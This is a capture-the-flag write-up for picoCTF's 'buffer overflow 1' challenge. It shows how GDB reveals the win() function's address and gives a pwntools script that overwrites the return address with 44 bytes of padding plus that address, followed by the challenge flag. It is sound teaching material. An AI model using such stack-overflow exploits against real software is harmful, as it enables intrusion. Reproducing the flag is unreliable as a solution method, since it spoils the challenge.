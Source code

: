 # buffer overflow 1

Control the return address [vuln](./vuln.c).

Author: Sanjay C / Palash Oswal

200 Points

---
## Solution

This is a very straight forward buffer overflow problem where we must control the return address of the function to access a different function in the program. The first thing we can do is run the program through GDB and `break main`. We can then `info functions | grep win` to see the list of functions in the binary and see the `win()` condition is at `0x080491f6`.

We can also see that there is an expected user buffer of fixed length, so that means we can write past that buffer and control the return address. It's as simple as putting those two together, but writing the entire buffer up to the return address, and then putting in the `win()` address in little-endian format.

Here's my code in my [exploit.py](./exploit.py):
```Python
from pwn import *

# Address of win() is 0x080491f6
buffer = (b"A" * 44) + b"\xf6\x91\x04\x08"

io = remote('saturn.picoctf.net', 52595)

io.sendline(buffer)
output = io.recvall()
print(output.decode())

io.close()
```

---
## Flag
```
picoCTF{addr3ss3s_ar3_3asy_a8284f4f}
```

